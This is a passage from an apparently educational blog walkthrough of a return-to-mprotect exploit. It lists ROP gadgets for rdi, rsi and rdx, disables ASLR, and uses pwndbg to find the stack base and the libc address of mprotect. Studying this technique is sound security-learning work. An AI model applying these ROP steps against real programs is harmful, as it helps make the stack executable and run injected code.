 ‍

![image](/blogs/return-to-mprotect/image-20250326114110-cpa5l54.png)

```1
0x000000000002bb39: pop rsi; ret; 

```

‍

![image](/blogs/return-to-mprotect/image-20250326114210-iiyjgbq.png)

```1
0x000000000010d37d: pop rdx; ret;
```

‍

here we go we have our gadgets ready now:

```1
0x000000000002a205: pop rdi; ret; -- base address of stack
0x000000000002bb39: pop rsi; ret; -- length 
0x000000000010d37d: pop rdx; ret; -- prot value (7)
```

‍

**The next step is to find out the base address of stack and address of mprotect().**

**disable aslr:**

![image](/blogs/return-to-mprotect/image-20250326114849-cnenvmf.png)

‍

```1
pwndbg>  vmmap
```

‍

![image](/blogs/return-to-mprotect/image-20250326115006-s09x5my.png)

```1
base address of the stack : 0x7ffffffde000
protection rw-
```

‍

![image](/blogs/return-to-mprotect/image-20250326115222-kdfq7wn.png)

```1
address of mprotect in libc: 0x7ffff7feaba0
```

‍
